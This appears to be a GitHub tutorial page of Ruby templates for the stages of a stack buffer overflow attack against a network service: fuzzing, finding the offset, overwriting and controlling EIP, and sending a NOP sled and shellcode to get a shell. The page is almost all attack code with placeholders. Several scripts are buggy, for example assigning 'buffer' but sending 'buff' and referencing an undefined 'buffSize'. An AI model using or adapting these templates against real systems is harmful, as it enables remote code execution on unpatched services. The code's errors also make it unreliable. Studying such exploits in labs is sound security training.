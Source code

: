 
### Ruby Templates for BOF

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Ruby
require 'socket'

buff = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
### Finding Offset
```Ruby
require 'socket'

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```    
### Overwriting EIP
```Ruby
buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Owning EIP
```Ruby
buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Getting a Shell
```Ruby
shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
[<= Go Back to Main Menu](index.md)
